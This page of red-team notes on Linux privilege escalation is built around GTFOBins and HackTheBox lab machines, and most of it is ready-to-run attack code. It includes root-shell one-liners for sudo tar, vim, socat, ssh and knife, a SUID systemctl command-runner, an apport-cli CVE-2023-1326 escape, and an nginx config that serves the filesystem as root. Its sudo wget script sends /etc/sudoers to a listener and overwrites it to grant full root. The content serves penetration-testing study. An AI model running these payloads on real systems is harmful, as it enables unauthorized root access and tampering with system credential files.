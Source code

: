# GTFOBins

<div class="row row-cols-lg-2"><div>

**[GTFOBins](https://gtfobins.github.io/)** (9.5k ⭐) a.k.a. "Get The Fuck Out" is a list of way to exploit binaries such as `sed`/`tar`/... to get root.

Common use cases are:

* [Binary was given SUID/GUID permissions](/cybersecurity/red-team/s4.privesc/linux/topics/perms.md#suidguid-bit)
* [Binary was given capabilities](/cybersecurity/red-team/s4.privesc/linux/topics/perms.md#capabilities)
* [User was granted sudo permission to binary](/cybersecurity/red-team/s4.privesc/linux/topics/sudo.md)
* ...

Note that not every exploit may pop a shell. Some only allow you to edit some files, which may help getting root.
</div><div>

**Example** 🔥

You can only run `tar` using `sudo`. Run the command below from [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), and you will get a root shell.

```ps
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

➡️ You can use [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup) (0.2k ⭐) for offline browsing.

➡️ You may need/want to create a [root bash](rootbash.md).
</div></div>

<hr class="sep-both">

## ⚡ SUID `systemctl` script

Description: this script makes it easier to run several commands using `systemctl`.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```ps
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```ps
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -laR /root
```
</div></div>

<hr class="sep-both">

## ⚡ SUDO `wget` script

Description: this script automate privilege escalation using `wget`.

<div class="row row-cols-lg-2"><div class="align-self-center">

It's quite easy to do it manually, but you need two machines (ex: your VM and the target). This script is complex because everything is done locally, without interacting with your VM!

* Will use `wget` to fetch `/etc/sudoers` and `nc` to grab the result

* Then, it will replace the line giving access to `wget` and give you the permission to run every command as root

* Then, we will start a python web server, and use `wget` with `-o` to replace our new sudo file with the tampered one.

* Finally, the script run `sudo bash` and open your shell as root

⚠️ The script may mess with your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) file if something goes wrong. I destroyed my VM 7 times before managing to make the script work 🌳. If you understand the commands used in the script, use them one by one, and check the tampered sudoers file (output) BEFORE overriding the current one.
</div><div>

```bash!
file=/etc/sudoers
port=4444
# todo: use mktemp
output=stolenfile

# Working in /tmp
cd /tmp
# -d and -q 0 to quit when connection is closed
nc -dlnp $port -q 0 > $output &
# -q = quiet, and -T 1 = close after one second
sudo wget -q --post-file=$file localhost:$port -T 1
# remove the HTTP headers
sed -i '1,9d' $output
# replace the command with find
sed -i "s/\($(whoami).*\)/$(whoami)  ALL=(ALL) NOPASSWD:ALL/g" $output
# create a web server
python3 -m http.server $port &
pid=$(echo $!)
sleep 1 # let the webserver start
# get the file then kill the webserver
# replace /etc/sudoers
sudo wget -q localhost:$port/$output -O $file && kill $pid
# open the root shell
sudo bash
```
</div></div>

<hr class="sep-both">

## Random Payloads

<div class="row row-cols-lg-2"><div>

If we are allowed to run a command as sudo:

* Common commands

```ps
$ sudo vim -c ':!/bin/sh'
$ sudo socat stdin exec:/bin/bash
$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

* [apport-cli](https://manpages.ubuntu.com/manpages/focal/en/man1/apport-cli.1.html) 2.26.0 and earlier has a vulnerability ([CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326)) 

[![devvortex](../../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)

```ps
$ sudo /usr/bin/apport-cli --file-bug
> 1
> 2
> F # any key
> V # view report (open less)
:!/bin/bash
```

* `/usr/bin/systemctl status xxx.service`

[![attacking_common_applications](../../../../_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

While it may be secure, if a reader is opened, such as `less`, it may be leveraged to run commands e.g. using `!/bin/bash` for `less`.
</div><div>

* `/usr/bin/knife`: [knife](http://manpages.ubuntu.com/manpages/bionic/man1/knife.1.html) can be exploited in many ways

[![knife](../../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)

```ps
$ sudo knife environment edit _default -e vim # -> sudo vim
$ sudo knife environment edit _default -e rootbash.sh
$ sudo knife exec --exec "exec '/bin/sh -i'"
$ echo -n 'exec "/bin/bash -i"' > config.rb
$ sudo knife user list -c config.rb
```

* `nginx` can be used to read files. It may also be used to write files using `dav_methods PUT;`. For instance, adding an entry in authorized keys or sudoers.

[![broker](../../../../_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)

```shell!
$ cat $(pwd)/test.conf
user root;
events {
    worker_connections 768;
}
http {
    server {
       listen 80;
        server_name  pwned.test;

        location / {
            root /;
            autoindex on; 
        }
    }
}
$ sudo nginx -s stop
$ sudo nginx -c $(pwd)/test.conf
```
</div></div>
